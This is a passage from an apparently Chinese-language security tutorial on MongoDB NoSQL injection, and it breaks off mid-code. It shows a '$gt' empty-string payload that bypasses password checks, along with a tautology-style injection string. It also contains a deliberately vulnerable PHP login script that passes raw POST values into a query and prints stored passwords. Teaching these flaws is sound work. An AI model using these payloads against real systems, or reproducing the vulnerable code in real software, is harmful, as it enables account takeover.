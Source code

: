 也就是`accessories'||'1'=\='1'`

![](assets/1706959875-2fce446f863482e180ee74b7a458e0fe.png)

## 1.5 Inject function

### 1.5.1 重言式注入

```php
var user = db.users.find({"username": userInputUsername, "password": userInputPassword});
```

攻击者可以构造{"$gt":""}来进行绕过

```php
var user = db.users.find({"username": "administrator", "password": {"$gt": ""}});
```

MongoDB 中的运算`"$gt"`符的意思是“大于”。通过将该值设置为空字符串，攻击者可以绕过身份验证，因为查询将返回用户名和密码大于空字符串的第一个用户。

这里也放一下Marcus\_Holloway师傅的index.php

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];

$query = new MongoDB\Driver\Query(array(
    'username' => $username,
    'password' => $password
));

$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
```